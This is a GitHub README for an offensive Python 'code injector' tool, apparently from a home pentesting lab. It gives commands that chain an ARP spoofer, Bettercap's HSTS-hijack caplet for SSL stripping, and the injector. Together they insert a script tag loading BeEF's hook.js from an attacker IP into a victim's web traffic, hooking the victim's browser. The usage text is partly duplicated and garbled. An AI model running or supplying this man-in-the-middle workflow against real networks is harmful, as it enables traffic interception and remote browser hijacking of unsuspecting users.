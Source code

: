 # Code injector

## Requirements

* Root access
* Python 3
* Scapy and NetfilterQueue modules
* BeEF
* Bettercap

## Usage

```shell
usage: code_injector.py [-h] [-d DESTINATION] [-c CODE]

optional arguments:
  -h, --help            show this help message and exit
  -d DESTINATION, --destination DESTINATION
                        Destusage: code_injector.py [-h] [-d DESTINATION] [-c CODE]

Code injector tool (use Bettercap hstshijack/hstshijack for sslstripping)

optional arguments:
  -h, --help            show this help message and exit
  -d DESTINATION, --destination DESTINATION
                        sslstrip, forward, or local
  -c CODE, --code CODE  Code to inject

Example: 
            code_injector.py # via a html file in location apache2 server on Kali, hook browser for BeEF, sslstrip on
```

### Kicking the tyres

Injection code: `<script src="http://192.168.122.108:3000/hook.js"></script>`

* Run the [arp_spoofer.py script](/arp_spoofer)

```shell
    @kali:~$ sudo python3 arp_spoofer.py
    [sudo] password for <user>: 
    [+] Setting forward
    [+] Packets sent: 63
```
* Run `bettercap` (also see the Troubleshooting section below)

```shell
    @kali:~$ sudo bettercap -iface eth0 -caplet hstshijack/hstshijack
```
* Run the `code_injector.py` script for using BeEF 

```shell
kali:~$ sudo python3 code_injector.py -d forward -c '<script src="http://192.168.122.108:3000/hook.js"></script>'
```

And check on Windows machine it works.

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [BeEF unable to load extensions](https://github.com/tymyrddin/ymrir/wiki/beef.md)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)
